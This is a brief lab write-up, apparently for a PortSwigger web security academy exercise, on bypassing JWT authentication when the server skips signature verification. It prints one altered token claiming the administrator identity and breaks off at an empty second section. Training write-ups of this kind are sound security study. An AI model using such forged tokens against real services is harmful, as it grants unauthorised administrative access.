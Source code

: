 # Title: JWT Attack , *Web Academy*
- 👨‍💻By: Nathan Hailu
- 🗒Description: Labs are solved and their write up is here.
- 📅Date: Thu 01/12/2023

================= { START } ==============================

A) JWT authentication bypass via unverified signature

    - The served don't validate if the token is original or not, so we can change it to administrator.
      - eyJraWQiOiI3NGIwNjQ0Ny02N2ZhLTRiMmItYmJkNS1hMWY0ZGJmZjgyN2UiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2NzM1NDk2OTZ9.sNPYnjK3a2yjUzsEUL4VwBxO3u-7Sagqtz-uHGi-y8rdxiKfqwCEi2hzIC0VESWrsBZelrGmSx1SHl6XIouRuWif6XI6PrmmCWqWocoz9MqzlPJtheVK9lAS4QOjVHARGzsuRXwqymPpGDqqry8kYhKaEsuMN6vk3TjPitj26YlB2vFxYUsP4lJO0sepPmdEVRHiBZUyHSGnrqhfxoSN9_L4cEyjfoKXvS-UoNSQBPEKgrYp4PKaOQrt4JSneVqvYIJnKrv_swWYZo-fBptZZT9BgcjDHdp35LIFIFD5LDlGYY3RXoWK3vxBkyfhOvD9Nk2u-ccxs-uC0Jwyp1s1yw

B) 